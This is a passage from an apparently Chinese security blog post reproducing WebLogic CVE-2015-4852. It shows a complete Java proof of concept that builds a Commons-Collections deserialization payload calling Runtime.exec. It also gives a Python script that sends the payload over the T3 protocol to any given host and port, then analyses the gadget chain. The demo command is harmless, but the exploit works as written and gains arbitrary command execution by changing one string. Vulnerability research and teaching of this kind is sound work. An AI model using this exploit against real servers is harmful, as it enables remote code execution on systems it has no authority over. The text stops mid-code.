










### 0x01 前言

前面，我们了解了java的序列化机制，也知道在什么情况下会出现漏洞，为了对反序列化漏洞有个更直观的认识，这里就来说一说存在于apache commons-collections.jar中的一条pop链，要知道这个类库使用广泛，所以很多大型的应用也存在着这个漏洞，我这里就以weblogic cve-2015-4852来说说反序列化漏洞的具体利用方法。

在复现分析cve-2015-4852的过程中，踩了挺多坑的，网上基本没有复现cve-2015-4852的，都是一句“没有任何防御措施，可以直接拿着ysoserial的payload打”.....但是我在复现的过程中发现Weblogic运行在jdk7与jdk8下是不一样的，在jdk8下有些ysoserial中的payload不能正常使用，例如CommonsCollections1，而且我复现的weblogic版本是weblogic 10.3.6,它使用的commons-collections版本为3.2.0，ysoserial中的很多payload都是3.1的，没有仔细去研究这个版本差异是不是导致反序列化失败的原因之一，只是顺带一提

### 0x02 复现

复现环境： 
- weblogic 10.3.6  
- jdk 1.7

由于ysoserial上的payloads不太好用，我只有照猫画虎自己写一个代码生成paylod
java poc:

```java
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;


public class POC2 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers_exec = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"wireshark"})
        };

        Transformer chain = new ChainedTransformer(transformers_exec);

        HashMap innerMap = new HashMap();
        innerMap.put("value","asdf");

        Map outerMap = TransformedMap.decorate(innerMap,null,chain);

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = clazz.getDeclaredConstructor(Class.class,Map.class);
        cons.setAccessible(true);

        Object ins = cons.newInstance(java.lang.annotation.Retention.class,outerMap);
        FileOutputStream fos = new FileOutputStream("./poc.ser");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        os.writeObject(ins);
//        ByteArrayOutputStream baos = new ByteArrayOutputStream();
//        ObjectOutputStream oos = new ObjectOutputStream(baos);
//        oos.writeObject(ins);
//        oos.flush();
//        oos.close();
//
//        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
//        ObjectInputStream ois = new ObjectInputStream(bais);
//        Object obj = (Object) ois.readObject();
    }
}
```

运行这个poc之前需要commons-collections类库，否则会提示很多类找不到，由于我是在本地复现，可以直接在idea中将weblgoic中的`com.bea.core.apache.commons.collections_3.2.0.jar`加入到lib中,具体操作参考：

https://blog.csdn.net/he_and/article/details/89843004

然后运行该poc,会在当前目录下生成poc.ser文件，这个文件中就存放着序列化后的payload,现在payload有了，我们还需要发送给weblogic，weblogic有一个t3协议，这个协议依赖于序列化与反序列化机制，所以，我们只要按照t3协议的格式，把payload发送到weblogic,weblogic就会反序列化我们的恶意payload,从而执行指定的命令,t3协议脚本：

```python
#!/usr/bin/python
import socket
import sys
import struct

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

server_address = (sys.argv[1], int(sys.argv[2]))
print 'connecting to %s port %s' % server_address
sock.connect(server_address)

# Send headers
headers='t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://us-l-breens:7001\n\n'
print 'sending "%s"' % headers
sock.sendall(headers)

data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data

payloadObj = open(sys.argv[3],'rb').read()

payload='\x00\x00\x09\xf3\x01\x65\x01\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x71\x00\x00\xea\x60\x00\x00\x00\x18\x43\x2e\xc6\xa2\xa6\x39\x85\xb5\xaf\x7d\x63\xe6\x43\x83\xf4\x2a\x6d\x92\xc9\xe9\xaf\x0f\x94\x72\x02\x79\x73\x72\x00\x78\x72\x01\x78\x72\x02\x78\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x70\x70\x70\x70\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x06\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x03\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x03\x78\x70\x77\x02\x00\x00\x78\xfe\x01\x00\x00'
payload=payload+payloadObj
payload=payload+'\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x21\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x65\x65\x72\x49\x6e\x66\x6f\x58\x54\x74\xf3\x9b\xc9\x08\xf1\x02\x00\x07\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x74\x00\x27\x5b\x4c\x77\x65\x62\x6c\x6f\x67\x69\x63\x2f\x63\x6f\x6d\x6d\x6f\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\x3b\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x56\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x97\x22\x45\x51\x64\x52\x46\x3e\x02\x00\x03\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x71\x00\x7e\x00\x03\x4c\x00\x0e\x72\x65\x6c\x65\x61\x73\x65\x56\x65\x72\x73\x69\x6f\x6e\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x00\x12\x76\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x41\x73\x42\x79\x74\x65\x73\x74\x00\x02\x5b\x42\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x71\x00\x7e\x00\x05\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x05\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x05\x78\x70\x77\x02\x00\x00\x78\xfe\x00\xff\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x46\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\x00\x0b\x75\x73\x2d\x6c\x2d\x62\x72\x65\x65\x6e\x73\xa5\x3c\xaf\xf1\x00\x00\x00\x07\x00\x00\x1b\x59\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\x00\x78\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x1d\x01\x81\x40\x12\x81\x34\xbf\x42\x76\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\xa5\x3c\xaf\xf1\x00\x00\x00\x00\x00\x78'

# adjust header for appropriate message length
payload = "{0}{1}".format(struct.pack('!i', len(payload)), payload[4:])

print 'sending payload...'
sock.send(payload)

```

上面的脚本是py2版本的，python3需要稍微改动一下。执行以下命令发送payload:

`python weblogic-t3.py ip port 存放payload的文件`

成功弹出wireshark



进一步了解t3协议可以参考我的另一篇文章：

https://blog.csdn.net/he_and/article/details/97924679

### 0x03 commons-collections gadgets分析

上面的复现使用的payload经过反序列化过后会执行：`Runtime.getRuntime().exec("wireshark")`

具体是怎么做到的呢?我们不妨根据给出的poc来摸索一下这条利用链的挖掘过程，先把目光放到InvokerTransformer这个类上，注意这个类的transform方法：

```java
    public Object transform(Object input) {
        if (input == null) {
            return null;
        } else {
            try {
                Class cls = input.getClass();
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                return method.invoke(input, this.iArgs);
            } catch (NoSuchMethodException var5) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
            } catch (IllegalAccessException var6) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
            } catch (InvocationTargetException var7) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var7);
            }
        }
    }
```

有了前文的基础，我们可以很容以看出来这里用到了反射机制，并且代码和我之前的demo很相似，他们都是执行了某个对象的某个方法，再看看这个类的构造函数：
```java
    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        this.iMethodName = methodName;
        this.iParamTypes = paramTypes;
        this.iArgs = args;
    }
```
`this.iMethodName, this.iParamTypes,this.iMethodName, this.iParamTypes`都是可控的，那么，现在只要保证input可控，我们就可以执行任意对象的任意方法了！但是这样我们还是不能执行系统命令的，因为执行系统命令的方式是：`Runtime.getRuntime().exec("xxxx")`

所以需要一个执行链才能够满足我们的需求（而不单单是执行某个对象的某个方法），而正好commons-collections类库真有这么一个类可以达到这个目的，这个类就是ChainedTransformer，该类中也有一个transform方法：

```java
//构造函数
    public ChainedTransformer(Transformer[] transformers) {
        this.iTransformers = transformers;
    }

    public Object transform(Object object) {
        for(int i = 0; i < this.iTransformers.length; ++i) {
            object = this.iTransformers[i].transform(object);
        }

        return object;
    }
```

可以看到这个类的构造函数接收一个Transformer类型的数组，并且在transform方法中会遍历这个数组，并调用数组中的每一个成员的transform方法，最重要的一点是上一个成员调用transform方法返回的对象会作为下一个成员的transform方法的参数，这就是一个链式调用呀！

但是你以为只靠InvokerTransformer组成的数组就可以完成整个攻击链了吗，是不行的，因为这个调用链的起点是Runtime,无论怎么构造InvokerTransformer，我们都无法得到利用链开端的这个Runtime，但是巧的是，又有这么一个类——ConstantTransformer，我们看看他的构造函数以及transform方法：

```java
    public ConstantTransformer(Object constantToReturn) {
        this.iConstant = constantToReturn;
    }

    public Object transform(Object input) {
        return this.iConstant;
    }
```

他的transform方法就很简单，就是返回iConstant，而this.iConstant又来自构造函数的参数，所以，如果我们实例化时传入一个Runtime.class返回的也是Runtime.class那么也就解决利用链开头的Runtime问题。

可能大家看到这里已经有点晕了，感觉满脑子都是xxxtransformer。所以，看到这里先暂停一下，不着急往下看，我们来理一理这几个transfromer。其实一共就三个transformer,而且这些xxxtransformer都是**实现了TransFormer这个接口**的，所以他们都有一个transform方法:

|InvokerTransformer|ConstantTransformer|ChainedTransformer|
|:-:|:-:|:-:|
|构造函数接受三个参数|构造函数接受一个参数|构造函数接受一个TransFormer类型的数组|
|transform方法通过反射可以执行一个对象的任意方法|transform返回构造函数传入的参数|transform方法执行构造函数传入数组的每一个成员的transform方法|

有了上面的基础，我们来把这几个transformer组合起来构造一个执行链，代码如下：

```java

Transformer[] transformers_exec = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"wireshark"})
};

Transformer chain = new ChainedTransformer(transformers_exec);
chain.transform('1');
```

就是这么简单，最后那个transform()随便传一个什么进去都行，成功弹出wireshark:



到这里，整个漏洞的核心已经明了了，现在我们得想想在真实的应用中怎么触发ChainedTransformer的transform方法，按照正常的操作，我们应该以transform(为关键字全局搜索，但是我们这里是反编译得到的源码，在idea中好像不支持全局搜索.class文件中的字符串，所以，有点头大，但是也不影响，毕竟网上已经有很多分析文章了，我们可知有两个类中使用了可疑的transform方法：LazyMap、TransformedMap。

### TransformedMap利用链

我们一个个来分析，先说说TransformedMap中，一共有三处函数使用了transform方法



当然，光是使用了transform这个方法还不行，我们还需要确认是使用了ChainedTransformer.transform(),我们看一下this.keyTransformer的值：



可以看到this.keyTransformer的类型是Transformer,而且是我们可以控制的，所以，在构造poc的时候只需要将他的值赋为我们精心构造的ChainedTransformer就行，按照这个思路，我们继续构造poc，现在的poc可以用TransformedMap的三个方法transformKey、transformValue、checkSetValue触发transform方法，但是我在构造的时候发现这三个方法的访问权限都是protected,也就是不能直接被外部访问，我们只有迂回一下了，TransformedMap类中一共有四个方法访问权限是public:两个构造函数，如下:

```java
    public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }

    public static Map decorateTransform(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        TransformedMap decorated = new TransformedMap(map, keyTransformer, valueTransformer);
        if (map.size() > 0) {
            Map transformed = decorated.transformMap(map);
            decorated.clear();
            decorated.getMap().putAll(transformed);
        }

        return decorated;
    }
```
另外两个如下：
```java
    public Object put(Object key, Object value) {
        key = this.transformKey(key);
        value = this.transformValue(value);
        return this.getMap().put(key, value);
    }

    public void putAll(Map mapToCopy) {
        mapToCopy = this.transformMap(mapToCopy);
        this.getMap().putAll(mapToCopy);
    }
```

可以看到put方法调用了transformKey以及transformValue,这两个方法又都调用了transform方法，所以，我们可以通过调用实例化一个TransforomedMap对象，然后调用对象的put方法，从而执行任意命令，此时的半成品poc如下：

```java
import org.apache.commons.collections.Transformer;
